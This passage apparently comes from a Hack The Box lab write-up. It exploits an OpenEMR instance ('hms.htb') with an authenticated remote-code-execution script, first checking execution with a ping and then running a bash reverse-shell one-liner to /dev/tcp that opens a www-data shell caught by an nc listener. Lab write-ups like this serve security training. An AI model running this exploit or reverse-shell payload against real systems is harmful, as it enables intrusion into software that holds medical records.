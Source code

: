        ={   P R O J E C T    I N S E C U R I T Y   }=    
                                                           
             Twitter : @Insecurity                       
             Site    : insecurity.sh                     
    
    [$] Authenticating with openemr_admin:xxxxxx
    [$] Injecting payload
    [$] Payload executed
    

In a separate window with `tcpdump` running, it works:

    
    
    root@kali# tcpdump -i tun0 icmp
    tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
    listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
    12:35:26.704809 IP 10.10.10.188 > 10.10.14.47: ICMP echo request, id 7655, seq 1, length 64
    12:35:26.704882 IP 10.10.14.47 > 10.10.10.188: ICMP echo reply, id 7655, seq 1, length 64 
    

#### Shell

Now I’ll get a shell by replacing the `ping` with a reverse shell:

    
    
    root@kali# python ./openemr-rce.py -u openemr_admin -p xxxxxx -c 'bash -c "bash -i >& /dev/tcp/10.10.14.47/443 0>&1"' http://hms.htb                                                                
     .---.  ,---.  ,---.  .-. .-.,---.          ,---.    
    / .-. ) | .-.\ | .-'  |  \| || .-'  |\    /|| .-.\   
    | | |(_)| |-' )| `-.  |   | || `-.  |(\  / || `-'/   
    | | | | | |--' | .-'  | |\  || .-'  (_)\/  ||   (    
    \ `-' / | |    |  `--.| | |)||  `--.| \  / || |\ \   
     )---'  /(     /( __.'/(  (_)/( __.'| |\/| ||_| \)\  
    (_)    (__)   (__)   (__)   (__)    '-'  '-'    (__) 
                                                           
       ={   P R O J E C T    I N S E C U R I T Y   }=    
                                                           
             Twitter : @Insecurity                       
             Site    : insecurity.sh                     
    
    [$] Authenticating with openemr_admin:xxxxxx
    [$] Injecting payload
    

It just hangs like this, but in a new window, I’ve got a shell:

    
    
    root@kali# nc -lvnp 443
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.188.
    Ncat: Connection from 10.10.10.188:57446.
    bash: cannot set terminal process group (2167): Inappropriate ioctl for device
    bash: no job control in this shell
    www-data@cache:/var/www/hms.htb/public_html/interface/main$
    